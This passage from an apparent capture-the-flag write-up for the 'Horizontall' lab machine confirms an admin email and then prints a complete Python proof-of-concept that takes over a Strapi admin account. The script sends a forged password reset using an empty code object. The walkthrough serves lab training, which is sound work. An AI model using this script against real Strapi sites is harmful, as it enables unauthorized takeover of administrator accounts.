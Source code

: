 Testing the username admin with the domain found earlier there is no error though, indicating this email is valid.

[![succ_pw_reset](/img/horizontall/succ_pw_reset.png)](/img/horizontall/succ_pw_reset.png)

Now we just need to download the script from the PoC and run it with the email, url and new password we want to set on the user.

`resetpw.py`
```py
import requests
import sys
import json

args=sys.argv

if len(args) < 4:
    print("Usage: {} <admin_email> <url> <new_password>".format(args[0]))
    exit(-1)

email = args[1]
url = args[2]
new_password =  args[3]

s  =  requests.Session()

version = json.loads(s.get("{}/admin/strapiVersion".format(url)).text)

print("[*] Detected version(GET /admin/strapiVersion): {}".format(version["strapiVersion"]))

#Request password reset
print("[*] Sending password reset request...")
reset_request={"email":email, "url":"{}/admin/plugins/users-permissions/auth/reset-password".format(url)}
s.post("{}/".format(url), json=reset_request)

#Reset password to
print("[*] Setting new password...")
exploit={"code":{}, "password":new_password, "passwordConfirmation":new_password}
r=s.post("{}/admin/auth/reset-password".format(url), json=exploit)

print("[*] Response:")
print(str(r.content))
```
